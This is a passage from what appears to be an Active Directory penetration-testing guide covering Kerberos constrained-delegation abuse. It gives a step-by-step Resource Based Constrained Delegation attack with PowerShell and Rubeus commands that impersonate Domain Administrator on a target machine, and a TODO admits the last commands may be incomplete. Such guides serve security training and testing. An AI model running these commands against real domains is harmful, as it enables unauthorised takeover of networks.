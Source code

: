 Now we can access the service as the impersonated user!

🚩 **What if we have delegation rights for only a specific SPN? \(e.g TIME\):**

In this case we can still abuse a feature of Kerberos called "alternative service". This allows us to request TGS tickets for other "alternative" services and not only for the one we have rights for. That gives us the leverage to request valid tickets for any service we want that the host supports, giving us full access over the target machine.

### Resource Based Constrained Delegation

_If we have GenericALL/GenericWrite privileges on a machine account object of a domain, we can abuse it and impersonate ourselves as any user of the domain to it. For example we can impersonate Domain Administrator and have complete access._

Tools we are going to use:

* [PowerView](https://github.com/PowerShellMafia/PowerSploit/tree/dev/Recon)
* [Powermad](https://github.com/Kevin-Robertson/Powermad)
* [Rubeus](https://github.com/GhostPack/Rubeus)

First we need to enter the security context of the user/machine account that has the privileges over the object. If it is a user account we can use Pass the Hash, RDP, PSCredentials etc.

Exploitation Example:

```text
#Import Powermad and use it to create a new MACHINE ACCOUNT
. .\Powermad.ps1
New-MachineAccount -MachineAccount $MachineAccountName -Password $(ConvertTo-SecureString 'p@ssword!' -AsPlainText -Force) -Verbose

#Import PowerView and get the SID of our new created machine account
. .\PowerView.ps1
$ComputerSid = Get-DomainComputer $MachineAccountName -Properties objectsid | Select -Expand objectsid

#Then by using the SID we are going to build an ACE for the new created machine account using a raw security descriptor:
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength) 
$SD.GetBinaryForm($SDBytes, 0)

#Next, we need to set the security descriptor in the msDS-AllowedToActOnBehalfOfOtherIdentity field of the computer account we're taking over, again using PowerView
Get-DomainComputer TargetMachine | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose

#After that we need to get the RC4 hash of the new machine account's password using Rubeus
Rubeus.exe hash /password:'p@ssword!'

#TODO: Fix these last two examples (Domain and computername needed?)
#And for this example, we are going to impersonate Domain Administrator on the cifs service of the target computer using Rubeus
Rubeus.exe s4u /user:$MachineAccountName /rc4:$RC4HashOfMachineAccountPassword /impersonateuser:Administrator /msdsspn:cifs/TargetMachine.wtver.domain /domain:$Domain_FQDN /ptt

#Finally we can access the C$ drive of the target machine
dir \\TargetMachine.wtver.domain\C$
```
